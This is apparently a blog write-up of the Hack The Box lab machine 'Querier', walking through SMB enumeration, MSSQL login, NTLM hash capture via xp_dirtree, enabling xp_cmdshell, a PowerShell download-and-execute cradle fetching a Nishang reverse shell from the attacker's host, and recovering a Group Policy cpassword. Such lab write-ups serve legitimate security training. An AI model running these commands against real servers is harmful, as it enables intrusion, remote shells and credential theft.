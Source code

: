 ```yaml
---
layout: post
title: Querier - HTB
subtitle: Medium box
cover-img: /assets/img/2023-09-18_22-32.png
thumbnail-img: /assets/img/2023-09-18_22-32.png
share-img: /assets/img/2023-09-18_22-32.png
tags: [books, test]
---
```


nmap revealed smb

smb got an xml file containing macro with creds for mssql server running on port 1433

using [mssqlclient.py](http://mssqlclient.py)(from impacket) logged into mssql server. turned responder on and run the following command in the mssql server pointing to my box with responder:

```bash
exec xp_dirtree '\\10.10.10.10\share\file'
```

crack the hash with john and then go back into the mssql server with the new credentials

now able to run commands ( have to enable first with the following command):

```bash
enable_xp_cmdshell
```

now we need to prepare a rev shell fire it up and get a real shell on the box. using nishang powershellreverce tcp

with this payload at the bottom (that’s how it works ? )

```bash
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 4444
```

now that we sorted the powershell we fire up a python server, netcat listener and we get it over to the box using the mssql shell and the following command;

```bash
xp_cmdshell powershell iex(new-object net.webclient).downloadstring(\"http://10.10.10.10/Invoke-PowerShellTcp.ps1\")
```

and now we got real shell on the box. now we can load up powersploit powerup script. make sure you add at the end of it Invoke-AllChecks same as we done with the payload in the revshell then just bring it over to the box in the same way using the same payload without the \:

```bash
iex(new-object net.webclient).downloadstring("http://10.10.10.10/Invoke-PowerShellTcp.ps1")
```

that will reveal the cpassword storred in Groups.xml it may even decrypt it for us if not then we can just take the cpassword from within the file and use gpp-decrypt “cpassword” and will decrypt it for us
